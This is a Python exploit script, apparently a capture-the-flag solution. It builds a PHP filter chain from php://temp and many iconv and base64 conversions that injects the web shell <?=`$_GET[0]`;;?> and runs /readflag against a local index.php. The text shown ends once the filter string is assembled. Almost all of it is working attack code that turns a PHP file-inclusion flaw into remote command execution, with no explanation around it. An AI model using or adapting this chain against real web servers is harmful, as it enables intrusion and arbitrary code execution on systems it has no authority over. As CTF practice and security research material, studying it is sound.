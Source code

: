 ```python
import requests

url = "http://localhost/index.php"
file_to_use = "php://temp"
command = "/readflag"

#<?=`$_GET[0]`;;?>
base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"

conversions = {
    'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
    'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
    'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
    'U': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
    'P': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213',
    'V': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
}


# generate some garbage base64
filters = "convert.iconv.UTF8.CSISO2022KR|"
filters += "convert.base64-encode|"
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
filters += "convert.iconv.UTF8.UTF7|"


for c in base64_payload[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"

filters += "convert.base64-decode"

```